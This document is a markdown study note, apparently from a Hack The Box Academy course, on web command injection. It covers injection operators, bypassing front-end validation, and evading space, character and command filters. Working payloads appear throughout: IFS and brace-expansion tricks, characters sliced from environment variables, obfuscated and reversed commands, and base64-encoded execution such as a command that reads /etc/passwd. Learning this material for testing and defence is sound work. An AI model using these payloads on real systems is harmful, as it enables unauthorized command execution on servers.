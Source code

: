 # Command Injection Overview
-----
Command Injections stand out as one of the most critical vulnerabilities in the realm of cybersecurity. This type of vulnerability provides a gateway for executing system commands directly on the hosting server's back-end, potentially compromising the entire network. When a web application employs user-controlled input to execute system commands, there exists an opportunity to inject a malicious payload, diverting the intended command and executing unauthorized actions.

#### Command Injection Detection
- Whenever there's an input field, we can potentially have a command injection vulnerability.

- We can try variou commands with different operators (`;`, `\n`,`&&`, `|`, etc.)

#### Injecting Commands
- Assume we have an application that ping an IP address, we can add another command after the IP

<img width="205" height="16" alt="image" src="https://github.com/user-attachments/assets/ae95a4c1-f059-42c0-ba87-6a8dde471851" />


- As we can see the application refuses our inout. However, it looks like the input validation is done on the front-end (i.e in the 2 commands execute successfully). 

#### Bypass Front-End Validation
- To bypass front-end validations, we can use BurpSuite to intecept the request. If there's only front-end validation, the Reponse will print the output of the commands

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_basic_repeater_2.jpg)

## Filters Evasion

### Identify filters
- Filter/WAF Detection: when trying different operators (&, &&, |, ;), if we get errors from the web page, it means there's a filter in place to protect the application. If the error message displayed a different page, with information like our IP and our request, this may indicate that it was denied by a WAF.
- When it comes to filtering, the application can blacklist operators or blacklist the whole command, or both. Hence, we need to attempt each scenario to figure out the vulnerability.

#### Blacklisted Characters
- If a commands contains a blocked special character, the application might deny the request.

- To find out which character is allowed in the application, use BurpSuite to try each of the following operators:

```bash
;	
\n	
&	
|
&&
||
``
$()
```

Their URL-encoded versions are:

```bash
%3b
%0a
%26
%7c
%26%26
%7c%7c
%60%60
%24%28%29
```

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_2.jpg)

#### Bypassing Space Filters
- If the application does not allow space character, we can try bypassing it by using tab instead.

![](https://academy.hackthebox.com/storage/modules/109/cmdinj_filters_spaces_3.jpg)

- As we see from the above image that the application accepts the request, meaning we succeed in bypassing space filter by using a tab.

- `${IFS}` is Linux Environment Varible whose default value is a space and a tab. Hence, the payload should look like `127.0.0.1%0a${IFS}`.

- Brace Expansion is another method we can use to bypass space filter, which automatically adds spaces between arguments wrapped between braces `{ls,-la}`. Hence, the payload will look like `127.0.0.1%0a{ls,-la}`.

#### Bypassing Other Blacklisted Characters
- Concept: we will obtain the special character from environment varible values (or $PATH).

- In Linux:
```bash
echo ${PATH} will output `/usr/local/bin:/usr/bin:/bin:/usr/games`. To get the "/" character, we run `echo ${PATH:0:1}`

- Similarly, to get ";" character, we use `${LS_COLORS:10:1}`

- So the final payload looks like: `127.0.0.1${LS_COLORS:10:1}${IFS}whoami`
```

- In Windows:

```shell
# Command Prompt
%HOMEPATH:~6,-11%	# output \


# PowerShell
$env:HOMEPATh[0]	# output \
```

#### Bypassing blacklisted commands
- In case an application blacklists certain commands, we need to find ways to work around.

- A few techniques we can use is using the commands with ' or ", which can be used on both Linux and Windows

```bash
127.0.0.1%0aw'h'o'a'm'i)
```

- In Linux, there are a few characters that can be inserted into the middle of the command

```bash
who$@ami
w\h\o\a\m\i
```

- Similarly, in Windows, we can use `^` character.

```bash
who^ami
```

#### Advanced Command Obfuscation
- In Windows, we can switching the cases of the commands (WhoAmI), which Windows will ignore and execute it.

- In Linux, since it is case-sensitive, we need to convert the command to lowercases before executing

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhoAmI")

Note: The above command uses space. If the application filters spaces, we need to replace it with tabs (%09)
```

- Reverse commands

```bash
# LINUX
echo "whoami" | rev
$(rev<<<"imaohw")

# WINDOWS
"whoami"[-1..-20] -join ''
iex "$('imaohw'[-1..-20] -join '')"
```

- Encoding commands: this is extremely helpful when it comes to using commands with filtered characters.

```bash
echo -n "cat /etc/passwd | grep 33" | base64	# Output: Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

# On the application
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

- For Windows, we can do similar technique

```PowerShell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```


